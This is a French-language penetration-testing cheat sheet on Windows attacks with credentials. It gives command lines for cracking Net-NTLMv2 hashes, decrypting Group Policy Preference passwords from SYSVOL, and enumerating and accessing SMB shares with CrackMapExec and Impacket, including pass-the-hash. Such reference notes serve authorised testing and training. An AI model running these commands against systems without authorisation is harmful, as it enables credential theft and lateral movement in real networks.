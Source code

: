 # Attaques Windows avec identifiants

## 1. Obtention d'identifiants / hash NTLM

### 1.1. Cracking

> Entrée : Hash Net-NTLMv2 obtenu au préalable
>
> Objectif : Obtenir le mot de passe de l'utilisateur

```bash
$ john --format=netntlmv2 --wordlist="/usr/share/wordlists/rockyou.txt" hash.txt

$ hashcat -m 5600 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

### 1.2. MS14-025 (GPO)

> **SYSVOL** est un partage réseau regroupant entre autre les éléments qui doivent être accessibles pour l’ensemble des ordinateurs du domaine (e.g. scripts de connexion, GPO, …). Il se situe sur les controleurs de domaine.
>
> Entrée : Accès à un partage SYSVOL sur la machine <IP>
>
> Objectif : Obtenir le mot de passe de l'utilisateur utilisé pour appliquer la GPO (généralement l'administrateur local)

```bash
# Connexion au préalable sur le partage SMB SYSVOL
$ cd \DOMAIN\Policies\{UNE-CLE-GPO}\Machine\Preferences\Groups\
$ cat Groups.xml
$ gpp-decrypt <HASHED_PASSWORD>

# Ou plus facile, utilisation du module gpp_password CME
$ cme smb <IP> -u <USERNAME> -p <PASSWORD> -d <DOMAIN> -M gpp_password
```





## 2. Exploitation avec identifiants / hash NTLM

### 2.1 Listing des partages réseaux SMB

> Entrée : Identifiants d'un utilisateur / hash NTLM si le partage est sur le DC
>
> Objectifs : lister les partages réseaux SMB présents sur une machine <IP>

```bash
# Sur une machine cliente
$ crackmapexec smb <IP_CLIENT> -u "USERNAME" -p 'PASSWORD' --shares --local-auth

# Sur un contrôleur de domaine
$ crackmapexec smb <IP_DC> -u "USERNAME" -H <HASH_NTLM> --shares
```

- Si utilisation d'un compte local, spécifier l'option --local-auth ;
- CME vient confirmer les identifiants utilisés et indique la mention "Pwn3d!" si c'est un compte ayant les droits d'un **administrateur local**. Si c'est un compte du domaine, il l'indique en vert.



### 2.2 Accès aux partages réseaux SMB

> Entrée : Identifiants d'un utilisateur / hash NTLM si le partage est sur le DC
>
> Objectifs : accéder et lire les fichiers présents sur les partages réseau SMB

```bash
# Sur une machine client
$ impacket-smbclient 'USERNAME:PASSWORD@<IP_CLIENT>'

# Sur un contrôleur de domaine
$ impacket-smbclient -hashes :<HASH_NTLM> DOMAIN/USERNAME@<IP_DC>     
```

Voir [smbclient](./smclient.md) pour consulter les actions réalisables.
